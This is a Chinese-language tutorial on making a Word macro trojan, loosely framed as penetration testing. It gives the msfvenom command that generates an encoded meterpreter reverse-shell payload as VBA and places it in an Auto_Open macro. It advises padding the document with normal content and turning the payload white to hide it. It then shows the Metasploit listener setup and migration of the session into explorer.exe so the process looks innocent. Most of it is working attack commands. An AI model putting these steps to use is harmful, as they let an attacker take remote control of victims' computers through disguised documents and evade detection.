 Word 宏病毒是嵌入文档中的恶意代码，利用宏功能传播并执行破坏性操作，如篡改文件或窃取信息。

> 需要安装 Office LTSC 专业增强版 2021

## 1 制作木马文档

生成 payload

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.6.24 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f vba-exe
```

打开 word 的宏

![](./../../../images/Word%20%E5%AE%8F/%E6%89%93%E5%BC%80%20word%20%E7%9A%84%E5%AE%8F.png)

输入宏病毒的名，创建

```
Auto_Open
```

![](./../../../images/Word%20%E5%AE%8F/%E8%BE%93%E5%85%A5%E5%AE%8F%E7%97%85%E6%AF%92%E7%9A%84%E5%90%8D%EF%BC%8C%E5%88%9B%E5%BB%BA.png)

清空代码，写入宏病毒，打开视图

> 粘贴从 Sub Auto_Open() 到 End Sub 的内容

![](./../../../images/Word%20%E5%AE%8F/%E6%B8%85%E7%A9%BA%E4%BB%A3%E7%A0%81%EF%BC%8C%E5%86%99%E5%85%A5%E5%AE%8F%E7%97%85%E6%AF%92%EF%BC%8C%E6%89%93%E5%BC%80%E8%A7%86%E5%9B%BE.png)

写入 Payload，保存

> 粘贴***下面的长字符段

![](./../../../images/Word%20%E5%AE%8F/%E5%86%99%E5%85%A5%20Payload%EF%BC%8C%E4%BF%9D%E5%AD%98.png)

修饰

> 建议在文档开头加入正常的内容，并将 Payload 代码改成白色

![](./../../../images/Word%20%E5%AE%8F/%E4%BF%AE%E9%A5%B0.png)

> 点开文档会运行宏代码，下载木马至某个目录中，并执行木马，反弹 shell

## 2 渗透测试

msf 配置侦听

```
msf6 > use exploit/multi/handler
```

```
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > set lhost 192.168.6.24
```

```
msf6 exploit(multi/handler) > set lport 4444
```

```
msf6 exploit(multi/handler) > run
```

目标运行文档

![](./../../../images/Word%20%E5%AE%8F/%E7%9B%AE%E6%A0%87%E8%BF%90%E8%A1%8C%E6%96%87%E6%A1%A3.png)

> 成功建立连接，目标关闭 word 文档之后 session 不受影响

## 3 进程迁移

> 建议将进程迁移到资源管理器

在目标主机中可看到可疑进程

![](./../../../images/Word%20%E5%AE%8F/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E4%B8%AD%E5%8F%AF%E7%9C%8B%E5%88%B0%E5%8F%AF%E7%96%91%E8%BF%9B%E7%A8%8B.png)

获取当前进程 pid

```
meterpreter > getpid
Current pid: 964
```

查看进程列表，根据 pid 找到进程

```
meterpreter > ps
```

![](./../../../images/Word%20%E5%AE%8F/%E6%9F%A5%E7%9C%8B%E8%BF%9B%E7%A8%8B%E5%88%97%E8%A1%A8%EF%BC%8C%E6%A0%B9%E6%8D%AE%20pid%20%E6%89%BE%E5%88%B0%E8%BF%9B%E7%A8%8B.png)

查看资源管理器的进程

```
meterpreter > ps -S explorer.exe
```

![](./../../../images/Word%20%E5%AE%8F/%E6%9F%A5%E7%9C%8B%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E7%9A%84%E8%BF%9B%E7%A8%8B.png)

将可疑进程隐藏到资源管理器

```
meterpreter > migrate 4508
```

再次查看 pid

```
meterpreter > getpid
Current pid: 4508
```

目标主机中可疑进程迁移到了资源管理器

![](./../../../images/Word%20%E5%AE%8F/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E4%B8%AD%E5%8F%AF%E7%9C%8B%E5%88%B0%E5%8F%AF%E7%96%91%E8%BF%9B%E7%A8%8B.png)